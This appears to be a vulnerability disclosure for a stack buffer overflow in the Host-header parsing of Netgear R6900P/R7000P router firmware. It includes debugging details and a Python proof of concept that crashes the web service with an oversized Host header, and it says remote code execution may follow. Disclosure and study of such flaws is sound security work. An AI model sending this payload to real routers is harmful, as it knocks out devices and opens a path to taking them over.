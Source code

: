 The Netgear AC1900 R6900P, R7000P router has an unauthorized buffer overflow vulnerability

The firmware version is 1.3.3.154.

**Business Impact**

this vulnerability can lead to a denial of service attack, and further exploitation can result in pre-authentication remote code execution (RCE).

There are also a significant number of these routers on the public internet:

![](11.png)

**Steps to Reproduce**

1. Vulnerability point: In the sub_16C4C function, which is primarily used to handle all web requests, the use of the sscanf function when reading the Host field leads to a stack buffer overflow. The field following "host: " is not length-checked, allowing overflow into the address of the variable v194 and down to the stack bottom.

In R6900P

![](10.png)

![](09.png)

![](08.png)

In R7000P:

![](7000P.png)



Vulnerability Verification:

The process ID of the HTTP server was 9514 before sending the packet, and it changed to 12344 after sending the packet. This indicates that the HTTP service has crashed.



![](01.png)

burp suite send packet:
![](02.png)

the process id changed:
![](03.png)

Debug:

![](04.png)

Break in 'acosNvramConfig_set' function, which happen after the vulnerability point. The stack address of the variable v194 is $sp+0x1046c, and the bottom of the stack is at $sp+0x10C00+0x324, indicating that the overflow has filled the entire stack.
![](05.png)

![](06.png)

![](07.png)



Poc:

```python
from pwn import *
import socket
import argparse

def form_payload(test_num, ip):
	payload = b"a" * (3356 - len(ip))
	print(payload.hex())
	headers = b"GET /img/error.png HTTP/1.1\r\n"
	headers += f"Host: {ip}".encode()
	headers += payload
	headers += b"\r\n"
	headers += b"Referer: http://192.168.1.1/img/error.png\r\n"
	headers += b"Connection: close\r\n"
	headers += b"Content-Length: 2\r\n"
	headers += b"Priority: u=2\r\n"
	return headers
if __name__ == '__main__':
	parser = argparse.ArgumentParser(description='target ip.')
	parser.add_argument('ip', help='target IP')
	args = parser.parse_args()
	ip = args.ip
	for i in range(1):
		headers = form_payload(i, ip)
		with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((ip, 80))
		s.sendall(headers)
		response = s.recv(4096)
		print(response.decode())
```

